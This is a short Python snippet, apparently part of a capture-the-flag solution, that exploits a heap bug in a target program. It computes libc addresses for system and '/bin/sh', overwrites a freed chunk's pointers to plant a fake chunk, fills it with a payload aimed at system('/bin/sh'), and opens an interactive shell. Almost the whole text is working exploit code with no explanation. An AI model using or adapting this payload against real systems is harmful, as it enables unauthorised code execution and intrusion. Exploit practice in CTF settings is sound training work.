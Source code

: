```python
head_addr = libc_base + 0xb2f58 - 0x10
system = libc_base + libc.sym['system']
binsh = libc_base+next(libc.search('/bin/sh'))
leak('libc addr', libc_base)

add(1, 0x60)
add(2, 0x208)  # fake_fl

dele(1)
edit(1, p64(fake_fl) + p64(head_addr))

payload = p64(fake_fl)
payload += b'A' * 0xf8
payload += p64(system)
payload += b'A' * 0xf8
payload += p64(binsh)
edit(2, payload)

# gdb.attach(p)
add(1, 0x10)
p.sendline('0')

p.interactive()

```

